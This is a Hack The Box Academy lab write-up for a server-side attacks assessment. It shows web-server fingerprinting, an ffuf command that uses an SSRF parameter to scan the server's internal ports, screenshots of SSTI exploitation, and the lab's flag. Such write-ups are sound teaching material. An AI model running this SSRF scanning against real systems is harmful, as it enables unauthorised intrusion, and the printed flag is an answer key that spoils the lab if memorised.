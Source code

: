 # [Server-side Attacks](https://academy.hackthebox.com/module/details/145)

## Skills Assessment

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.
### Questions

#### Question #01

**Question**

Obtain the flag.

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ whatweb http://94.237.120.228:41049/

http://94.237.120.228:41049/ [200 OK] Apache[2.4.62], Country[FINLAND][FI], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[94.237.120.228], Modernizr[3.11.2.min], Open-Graph-Protocol, PoweredBy[lots], Script, Title[Rogue Pickings]
```

![Burp Suite - Proxy History](./assets/screenshots/server_side_attacks_burp_proxy_history.png)

![Burp Suite - Repeater SSRF Check 1](./assets/screenshots/server_side_attacks_burp_repeater_ssrf_check_1.png)

![Burp Suite - Repeater SSRF Check 2](./assets/screenshots/server_side_attacks_burp_repeater_ssrf_check_2.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ seq 1 10000 > ports.txt
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ ffuf -w ./ports.txt -u http://94.237.120.228:41049/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ/index.php" -fr "Failed to connect to"

[SNIP]

80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 3888ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 16ms]
❌

[SNIP]
```

![Burp Suite - Repeater SSTI Check 1](./assets/screenshots/server_side_attacks_burp_repeater_ssti_check_1.png)

![Burp Suite - Repeater SSTI Check 2](./assets/screenshots/server_side_attacks_burp_repeater_ssti_check_2.png)

![Burp Suite - Repeater SSTI Check 3](./assets/screenshots/server_side_attacks_burp_repeater_ssti_check_3.png)

![Burp Suite - Repeater SSTI Exploit 1](./assets/screenshots/server_side_attacks_burp_repeater_ssti_exploit_1.png)

![Burp Suite - Repeater SSTI Exploit 2](./assets/screenshots/server_side_attacks_burp_repeater_ssti_exploit_2.png)

![Burp Suite - Repeater SSTI Exploit 3](./assets/screenshots/server_side_attacks_burp_repeater_ssti_exploit_3.png)

**Answer**

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

---
---
